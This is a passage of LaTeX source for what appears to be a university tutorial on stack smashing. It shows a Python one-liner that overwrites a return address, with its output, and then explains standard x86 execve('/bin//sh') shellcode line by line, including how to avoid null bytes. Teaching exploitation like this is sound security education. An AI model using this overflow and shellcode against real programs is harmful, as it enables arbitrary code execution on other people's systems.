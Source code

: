 \documentclass[article]{uibk}
\begin{document}
\begin{pre}
> python -c "print 'A'*32 + '\x9b'" | ./overflow
Enter text:
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
One does not simply jump into mordor()!
Segmentation fault (core dumped)
\end{pre}

And the function \texttt{mordor} has been executed, despite the segmentation
fault one can see that return address has been overwritten successfully.

\section{Shell Code}

While this is neat and can certainly be useful to an adversary, stack smashing
also enables us to inject arbitrary code into a program. Contrary to the
previous section the target machine will execute code provided by the attacker.
This can be achieved by bending the return address into the buffer used for the
exploit. Provided instructions will be executed upon return. Shell code is a
piece of (binary) code which opens up a shell that reads and executes commands
from an attacker. Lets start this section by crafting some shell code.

\begin{nasmcode*}{autogobble,xleftmargin=1em}
    xor     eax, eax    ;Clearing eax register
    push    eax         ;Pushing NULL bytes
    push    0x68732f2f  ;Pushing //sh
    push    0x6e69622f  ;Pushing /bin
    mov     ebx, esp    ;ebx now has address of /bin//sh
    push    eax         ;Pushing NULL byte
    mov     edx, esp    ;edx now has address of NULL byte
    push    ebx         ;Pushing address of /bin//sh
    mov     ecx, esp    ;ecx now has address of address
                        ;of /bin//sh byte
    mov     al, 11      ;syscall number of execve is 11
    int     0x80        ;Make the system call
\end{nasmcode*}

This piece of assembly sets up the parameters for the \texttt{execve} system
call and than invokes to replace the currently running process with a shell.
\texttt{execve} takes three arugments, a string of the program to execute (here
\texttt{"/bin//sh"} + terminator), a list of arguments for that program and a
list of environment variables. Its system call number is 11 and it will accept
\texttt{NULL} for both lists. The double slash in the first argument is used to
prevent null bytes inside the shell code. The function which reads the shell
code may truncate it upon reading a null byte, therefore we have to work around
this without chaning the underlying semantics.
\end{document}
